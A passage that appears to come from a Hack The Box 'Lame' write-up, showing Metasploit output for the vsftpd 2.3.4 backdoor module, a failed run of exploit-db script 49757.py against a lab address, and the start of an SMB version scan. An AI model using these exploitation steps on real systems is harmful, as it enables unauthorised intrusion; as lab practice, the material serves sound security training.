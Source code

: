 ```
```
I tried to look at different payloads, but it seems I do not have many choices:
```
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> show payloads

Compatible Payloads
===================

   #  Name                       Disclosure Date  Rank    Check  Description
   -  ----                       ---------------  ----    -----  -----------
   0  payload/cmd/unix/interact                   normal  No     Unix Command, Interact with Established Connection
```
Searchsploit references another exploit using Python:
```
$cp /usr/share/exploitdb/exploits/unix/remote/49757.py vsftpd_exploit.py
$python3 vsftpd_exploit.py 10.129.123.233
Traceback (most recent call last):
  File "/home/pierre/Documents/htb/machines/lame/vsftpd_exploit.py", line 37, in <module>
    tn2=Telnet(host, 6200)
  File "/usr/lib/python3.9/telnetlib.py", line 218, in __init__
    self.open(host, port, timeout)
  File "/usr/lib/python3.9/telnetlib.py", line 235, in open
    self.sock = socket.create_connection((host, port), timeout)
  File "/usr/lib/python3.9/socket.py", line 843, in create_connection
    raise err
  File "/usr/lib/python3.9/socket.py", line 831, in create_connection
    sock.connect(sa)
TimeoutError: [Errno 110] Connection timed out
```
It seems no backdoor is opened at port 6200. Maybe the server has been patched.
### Samba
Using `msfconsole`, we can get the version of the Samba server:
```
[msf](Jobs:0 Agents:0) >> search scanner smb

Matching Modules
================

   #   Name                                                            Disclosure Date  Rank    Check  Description
   -   ----                                                            ---------------  ----    -----  -----------
   20  auxiliary/scanner/smb/smb_version                                                normal  No     SMB Version Detection

Interact with a module by name or index. For example info 23, use 23 or use auxiliary/scanner/smb/impacket/wmiexec

[msf](Jobs:0 Agents:0) >> use 20
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >> options

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   THREADS  1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

```
